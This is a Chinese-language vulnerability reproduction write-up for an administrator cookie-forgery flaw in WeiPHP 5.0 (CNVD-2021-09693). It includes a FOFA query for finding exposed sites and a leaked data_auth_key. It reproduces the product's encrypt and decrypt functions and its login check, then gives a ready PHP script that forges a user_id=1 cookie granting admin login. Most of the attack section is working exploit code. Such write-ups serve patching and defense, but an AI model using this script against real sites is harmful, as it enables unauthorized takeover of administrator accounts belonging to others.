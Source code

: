 # WeiPHP5.0 任意用户Cookie伪造 CNVD-2021-09693

## 漏洞描述

Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 影响版本

<a-checkbox checked>Weiphp <= 5.0</a-checkbox></br>

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可

![img](../../../.vuepress/public/img/weiphp-1.png)



## FOFA

<a-checkbox checked>app="WeiPHP"</a-checkbox></br>



## 漏洞复现

首先需要得到数据库配置文件中的**data_auth_key**密钥

![img](../../../.vuepress/public/img/weiphp-15.png)



得到这个配置文件可参照上一篇**Weiphp5.0 前台文件任意读取**



```plain
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```



全局查找下使用了这个密钥的地方



![img](../../../.vuepress/public/img/weiphp-16.png)



找到了跟据这个密钥的加密方法和解密方法



**加密方法 think_encrypt**



```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```



**解密方法 think_decrypt**



```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```



全局查看下使用了解密方法的地方



在文件 **application\common.php** 中含有使用解密方法的代码，用于做身份验证



```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```



根据这里得到的代码，可以知道当**user_Id=1**时,会解密密钥后判断是否正确，如果正确则可以登录系统



我们在本地使用加密代码加密**user_id=1**得到的cookie则可以登录系统



```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```



![img](../../../.vuepress/public/img/weiphp-17.png)



添加**cookie: user_id=xxxxxxxx**即可成功登录



![img](../../../.vuepress/public/img/weiphp-18.png)



![img](../../../.vuepress/public/img/weiphp-19.png)

